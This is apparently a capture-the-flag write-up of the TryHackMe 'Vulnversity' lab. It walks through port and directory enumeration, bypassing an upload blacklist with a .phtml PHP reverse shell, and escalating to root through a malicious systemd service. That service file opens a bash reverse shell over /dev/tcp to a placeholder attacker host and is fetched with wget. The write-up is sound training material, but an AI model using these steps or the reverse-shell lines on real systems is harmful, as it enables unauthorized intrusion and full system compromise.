<div align="center">



</div>

## 📌 Overview

Vulnversity is a beginner-friendly Linux machine on TryHackMe focused on web exploitation and privilege escalation. The attack path covers service enumeration, file upload filter bypass, reverse shell delivery, and SUID-based privilege escalation via `systemctl`.

This room is an excellent real-world simulation: a small misconfiguration in file upload validation leads to full system compromise. The blacklist filter on the upload form is the core vulnerability — and Burp Intruder is what breaks it open.

---

## 🛠 Tools Used

```
nmap                  → port and service discovery
gobuster              → directory brute forcing
ftp                   → anonymous login test
smbclient / netexec   → SMB enumeration
Burp Suite Intruder   → file extension fuzzing
netcat                → reverse shell listener
systemctl             → SUID privilege escalation via GTFOBins
```

---

## 🎯 Target Information

| Field        | Value                          |
| ------------ | ------------------------------ |
| Target IP    | 10.114.175.131                 |
| OS           | Ubuntu Linux                   |
| Web Server   | Apache 2.4.41 (port 3333)      |
| Difficulty   | Easy                           |
| Goal         | Read root.txt from /root       |

---

## 🧭 Walkthrough

### Step 1 — Service Discovery (Nmap)

**Goal:** Identify all open ports and services before touching anything else.

Two scans were performed — a fast full-port discovery scan followed by a detailed version scan.

**Fast scan:**

```bash
sudo nmap -p- --min-rate 5000 -Pn 10.114.175.131
```



**Detailed scan:**

```bash
nmap -T4 -sV -A -Pn 10.114.175.131
```



**Key findings:**

| Port | State | Service      | Version                |
| ---- | ----- | ------------ | ---------------------- |
| 21   | open  | FTP          | vsftpd 3.0.5           |
| 22   | open  | SSH          | OpenSSH 8.2p1 Ubuntu   |
| 139  | open  | netbios-ssn  | Samba smbd 4           |
| 445  | open  | microsoft-ds | Samba smbd 4           |
| 3128 | open  | http-proxy   | Squid 4.10             |
| 3333 | open  | HTTP         | Apache 2.4.41 (Ubuntu) |

Six ports. The web server on port 3333 is the primary target. The nmap title scan confirmed it serves `Vuln University`.

---

### Step 2 — Service Enumeration

**Goal:** Test all non-web services before focusing on the web server — rule out quick wins first.

#### FTP — Anonymous Login

```bash
ftp 10.114.175.131
# Name: anonymous
```



Anonymous FTP access was denied. FTP is a dead end.

#### SMB — Share Enumeration

Listed available shares with smbclient:

```bash
smbclient -L //10.114.175.131 -N
```



Enumerated with netexec to check access levels:

```bash
nxc smb 10.114.175.131 -u '' -p '' --shares
```



Checked permissions with smbmap:

```bash
smbmap -H 10.114.175.131
```



Attempted to connect directly:

```bash
smbclient //10.114.175.131/print$ -N
```



SMB enumeration revealed two shares (`print$` and `IPC$`) but both returned NO ACCESS under a null session. SMB is a dead end.

---

### Step 3 — Web Enumeration

**Goal:** Map the web application and find all accessible paths before interacting with any of them.

Browsing to `http://10.114.175.131:3333` revealed a university-themed website titled **Vuln University**.


#### Directory Brute Force — Root

```bash
gobuster dir -u http://10.114.175.131:3333 \
  -w /usr/share/wordlists/dirb/common.txt \
  --exclude-length 162 -t 25 --timeout 20s -k
```



**Findings:**

| Path      | Status | Significance    |
| --------- | ------ | --------------- |
| /css      | 301    | Static assets   |
| /fonts    | 301    | Static assets   |
| /images   | 301    | Static assets   |
| /internal | 301    | **Interesting** |
| /js       | 301    | Static assets   |

The `/internal` directory stood out immediately. It is not a standard web directory name.

#### Directory Brute Force — /internal

```bash
gobuster dir -u http://10.114.175.131:3333/internal \
  -w /usr/share/wordlists/dirb/common.txt \
  --exclude-length 162 -t 25 --timeout 100s -k
```



**Findings:**

| Path                | Status | Significance   |
| ------------------- | ------ | -------------- |
| /internal/index.php | 200    | Upload form    |
| /internal/uploads   | 301    | File drop zone |

Navigating to `/internal/` revealed a simple file upload form.



---

### Step 4 — File Upload Filter Bypass

**Goal:** Identify what the upload filter allows and bypass it to deliver a PHP reverse shell.

#### Initial Test — .php Blocked

A PHP reverse shell (`php-shell.php`) was uploaded. The server responded:

```
Extension not allowed
```



The upload form uses a blacklist — blocking known PHP extensions. Blacklists are fragile because they require the developer to account for every dangerous extension. They never do.

#### Extension Fuzzing with Burp Intruder

The upload request was sent to Burp Intruder. The filename extension was set as the payload position and a wordlist of common PHP-executable extensions was loaded: `.php`, `.php3`, `.php4`, `.php5`, `.phtml`, `.pl`, `.py`, `.jsp` and others.



After running the attack and comparing response lengths, one extension produced a different response:



| Extension  | Response Length      |
| ---------- | -------------------- |
| Most       | 774 (blocked)        |
| **.phtml** | **760 (different!)** |

The `.phtml` extension was accepted by the server.

#### Upload — .phtml Shell

The reverse shell file was renamed to `php-shell.phtml` and uploaded:



The server responded with **"Success"**.

---

### Step 5 — Remote Code Execution and Shell

**Goal:** Trigger the uploaded shell and obtain a foothold on the target.

Set up a netcat listener on the attack machine:

```bash
nc -lvnp 3334
```

Navigate to the uploaded file directly in the browser to trigger execution:

```
http://10.114.175.131:3333/internal/uploads/php-shell.phtml
```



Netcat catches the connection:



```
connect to [192.168.205.100] from (UNKNOWN) [10.113.191.81] 49472
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Shell obtained as `www-data`. Stabilize immediately:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

### Step 6 — User Flag

**Goal:** Locate and capture the user flag.

```bash
cd /home
ls
cd bill
cat user.txt
```



**User flag captured.**

---

### Step 7 — Privilege Escalation via SUID systemctl

**Goal:** Escalate from `www-data` to `root` by abusing a misconfigured SUID binary.

#### Finding the SUID Binary

```bash
find / -perm -u=s -type f 2>/dev/null
```



Key finding: `/bin/systemctl` has the SUID bit set. `systemctl` with a SUID bit is a well-known GTFOBins escalation vector — it allows any user to load and execute arbitrary systemd services as root.

#### Creating and Delivering the Malicious Service

On the attack machine, create a service file that calls back with a root shell:

```ini
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER-IP>/4443 0>&1'

[Install]
WantedBy=multi-user.target
```

Serve it over HTTP and download it on the target:

```bash
# Attacker
python3 -m http.server 80

# Target
cd /tmp
wget http://<ATTACKER-IP>/root.service
```

Enable and start the service:

```bash
systemctl enable /tmp/root.service
systemctl start root
```



Root shell received on the listener:



```
whoami
root
```

---

### Step 8 — Root Flag

**Goal:** Capture the root flag to confirm full system compromise.

```bash
cd /root
cat root.txt
```




**Root flag captured. Machine fully compromised.**

---

## ✅ Proof of Compromise

| Flag     | Location              |
| -------- | --------------------- |
| user.txt | `/home/bill/user.txt` |
| root.txt | `/root/root.txt`      |

Shell obtained as `www-data` via `.phtml` upload filter bypass → root via SUID `systemctl` malicious service.

---

## 🚀 Attack Chain Summary

```
nmap → ports 21, 22, 139, 445, 3128, 3333 discovered
  ↓
ftp anonymous → denied
  ↓
smbclient / netexec / smbmap → shares found, null session denied
  ↓
gobuster root → /internal found
  ↓
gobuster /internal → upload form and /uploads directory found
  ↓
upload php-shell.php → "Extension not allowed"
  ↓
Burp Intruder extension fuzzing → .phtml bypasses blacklist filter
  ↓
upload php-shell.phtml → "Success"
  ↓
nc -lvnp 3334 → browse to /internal/uploads/php-shell.phtml
  ↓
shell as www-data → user flag captured
  ↓
find / -perm -u=s → /bin/systemctl has SUID bit
  ↓
create malicious root.service → wget to /tmp on target
  ↓
systemctl enable + start root.service → nc -lvnp 4443
  ↓
root shell → root flag captured
```

---

## 🧠 What This Lab Teaches

* **Blacklist filtering is fragile** — blocking `.php` alone is never enough. Developers must use a strict whitelist of allowed file types. Extensions like `.phtml` are fully executable by Apache and trivially bypass any blacklist that is not exhaustive.

* **Enumeration is the foundation** — without finding `/internal` via gobuster, there is no entry point. Every unauthenticated web application needs to be directory-busted before any other technique is attempted.

* **Burp Intruder is the right tool for filter bypass discovery** — fuzzing the filename extension field and comparing response lengths is fast and reliable. A difference in response length is the signal that a filter behaves differently for that input.

* **SUID on systemctl equals game over** — `systemctl` with a SUID bit allows any user to load and execute arbitrary systemd services as root. This is a critical misconfiguration that must never exist in production environments.

* **www-data is enough to escalate** — service account access is often dismissed as low privilege, but combined with a misconfigured SUID binary it leads directly to root. Never assume a service account shell is a dead end.

---

This work is part of **FuzzRaiders**' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀

<div align="center">


</div>